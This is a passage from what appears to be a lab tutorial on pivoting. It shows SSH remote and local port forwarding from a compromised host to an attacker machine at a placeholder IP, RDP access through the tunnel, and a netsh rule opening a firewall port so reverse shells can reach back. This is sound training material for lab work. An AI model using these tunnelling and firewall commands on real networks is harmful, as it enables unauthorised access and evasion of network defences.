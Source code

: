 This will establish anÂ SSHÂ session from PC-1 toÂ `1.1.1.1`Â (Attacker PC) using theÂ `tunneluser`Â user.

Since theÂ `tunneluser`Â isn't allowed to run a shell on the Attacker PC, we need to run theÂ `ssh`Â command with theÂ `-N`Â switch to prevent the client from requesting one, or the connection will exit immediately. TheÂ `-R`Â switch is used to request a remote port forward, and the syntax requires us first to indicate the port we will be opening at theÂ SSHÂ server (3389), followed by a colon and then the IP and port of the socket we'll be forwarding (3.3.3.3:3389). Notice that the port numbers don't need to match, although they do in this example.

The command itself won't output anything, but the tunnel will depend on the command to be running. Whenever we want, we can close the tunnel by pressing CTRL+C as with any other command.

Once our tunnel is set and running, we can go to the attacker's machine andÂ RDPÂ into the forwarded port to reach the server:


```shell-session
munra@attacker-pc$ xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
```

  

### SSHÂ Local Port Forwarding

**Local port forwarding**Â allows us to "pull" a port from anÂ SSHÂ server into theÂ SSHÂ client. In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on PC-1. That way, any host that can't connect directly to the attacker's PC but can connect to PC-1 will now be able to reach the attacker's services through the pivot host.

Using this type of port forwarding would allow us to run reverse shells from hosts that normally wouldn't be able to connect back to us or simply make any service we want available to machines that have no direct connection to us.

![SSH Local Port Forwarding](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/23c086c89a5bbe2fa364c95064235fb5.png)  

To forward port 80 from the attacker's machine and make it available from PC-1, we can run the following command on PC-1:

PC1: Command Prompt

```shell-session
C:\> ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
```

The command structure is similar to the one used in remote port forwarding but uses theÂ `-L`Â option for local port forwarding. This option requires us to indicate the local socket used by PC-1 to receive connections (`*:80`) and the remote socket to connect to from the attacker's PC perspective (`127.0.0.1:80`).

Notice that we use the IP address 127.0.0.1 in the second socket, as from the attacker's PC perspective, that's the host that holds the port 80 to be forwarded.

Since we are opening a new port on PC-1, we might need to add aÂ firewallÂ rule to allow for incoming connections (withÂ `dir=in`). Administrative privileges are needed for this:

```shell-session
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```
